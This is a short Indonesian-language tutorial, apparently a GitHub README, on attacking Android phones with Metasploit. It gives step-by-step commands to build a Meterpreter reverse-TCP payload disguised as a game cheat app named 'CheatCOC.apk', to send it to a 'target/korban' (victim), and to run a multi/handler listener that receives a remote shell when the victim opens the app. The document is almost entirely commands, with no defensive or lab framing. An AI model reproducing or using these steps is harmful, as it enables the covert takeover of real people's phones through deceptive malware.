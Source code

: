 # Metasploit

# Android Attack 

$sudo apt update
$sudo apt upgrade
$ifconfig (untuk mengetahui ip)
$sudo su (masuk ke menu root)

Membuat payload dengan perintah

 #msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.111.61(ip yang di cek tadi) LPORT=4321 R> CheatCOC.apk

tunggu dan jika sudah selesai cek aplikasi yang sudah di buat tadi di folder /home/kali

kemudian kirim aplikasi ke target/korban

buat exploit handler dengan perintah

#etc/init.d/postgresql start
#msfconsole
#use multi/handler
#set payload android/meterpreter/reverse_tcp
#set LHOST 192.168.111.61
#set LPORT 4321
#exploit

kemudian tunggu target/korban membuka aplikasi yang sudah di kirim tadi
